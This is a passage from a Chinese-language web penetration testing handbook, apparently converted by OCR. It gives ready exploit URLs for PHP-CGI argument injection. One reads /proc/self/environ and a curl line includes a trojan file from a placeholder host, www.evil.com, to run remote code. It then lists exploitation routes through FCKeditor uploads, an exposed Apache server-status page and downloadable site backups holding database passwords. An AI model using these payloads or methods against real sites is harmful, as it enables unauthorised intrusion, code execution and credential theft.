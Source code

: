 http://target.com/test.php?-dauto\_prepend\_file%3d/proc/self/environ+-n 

（/proc/self/environ 为本地文件路径）

7.2 远程包含执行代码 
------------------------------------

Curl
http://target.com/test.php?-dallow\_url\_include%3dOn+-dauto\_prepend\_file%3dhttp%3a%2f%2Fwww.evil.com%2fevil.txt 

（%3d = %3a : %2f / ）

（http://www.evail.com/evil.txt为木马文件）


8 FCK编辑器上传漏洞 
===================================

8.1 漏洞利用 
----------------------------

- 编辑器本身存在漏洞：更多参见《后台编辑器漏洞手册》

- 编辑器 + web服务器解析漏洞

- 突破后台建立文件夹漏洞（. 变
\_）


9 Apache Server Status对外暴露 
==============================================

www.ccvita.com/333.html

Apache 1.3.2及之后的版本自带查看Apache状态的功能模块
server-status，若设置不严（对公网开放），就会造成信息泄露，例如：真实IP、性能信息、客户端IP、旁站信息等。

9.1 利用方式 
----------------------------

未做限制访问的URL为：http://www.apache.org/server-status



10 网站备份文件可下载 
=====================================

该问题可能导致源代码泄露，获取web.conf文件，从中得到数据库密码，导致进一步渗透。

10.1 利用方式 
-----------------------------

常见备份目录为：

http://www.xxx.com/xxx.rar

http://www.xxx.com/xxx.zip

http://aaa.xxx.com/aaa.rar

http://bbb.xxx.com.cn/bbb.tar
